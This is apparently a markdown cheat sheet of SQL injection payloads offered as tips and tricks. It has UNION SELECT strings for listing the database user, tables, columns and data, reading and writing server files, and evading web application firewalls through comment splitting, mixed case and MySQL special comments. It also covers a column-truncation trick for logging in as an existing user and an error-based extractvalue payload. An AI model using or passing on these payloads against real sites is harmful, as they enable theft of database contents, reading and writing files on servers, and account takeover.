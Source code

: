 ```sql

Database user:
UniOn selEct 1,user() /*

Database tables:
UniOn selEct 1,table_name frOm information_schema.tables where table_schema = '[database name]' /*

Table Columns:
UniOn selEct 1,column_name frOm information_schema.columns where table_name = '[table name]' /*

Selecting data from table:
UniOn selEct 1,[column name] frOm [table name] /*

Reading files:
UniOn selEct 1,load_file('file location') /*

Writing files:
UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*


instead of using union + select in plain text if website using some kinf of waf you can use multi line comments


/?id=1+un/**/ion+sel/**/ect+1,2,3--

some sql injection waf bypass tips and tricks

SELECT * from users where id = -1 un/*!*/ion sel/*!*/ect database(),version(),substr((SELECT age from users LIMIT 2,1),1,10)

capitalize in some wafs

www.[site].com/index.php?id=-1+UnIoN+SeLeCt+1,2,3,4--+-

So what's the solution for this problem ?
Well we can use SQL special comments, they start with /*! instead of only /* and that's great because in the second query, the input is already a comment, we just need to prepend the input with !. But first what does these special comments do ?

A query that looks like this

SELECT secret FROM top_secrets /*! WHERE id=1 */
is EXACTLY equivalent to

SELECT secret FROM top_secrets WHERE id=1
It's as if there was no comment at ALL, amazing right ?


there is a sql space trick

suppose the max length of a column is 10

if you give the name of an entry that already exists and give spaced and fill out the max chars with anything and register with a password

when you login it will login with the present entry also for more details watch natas level 27 walkthrough john hammond

' or extractvalue(1,concat(0x7e,database())) or '1'='1';--+

# Source

```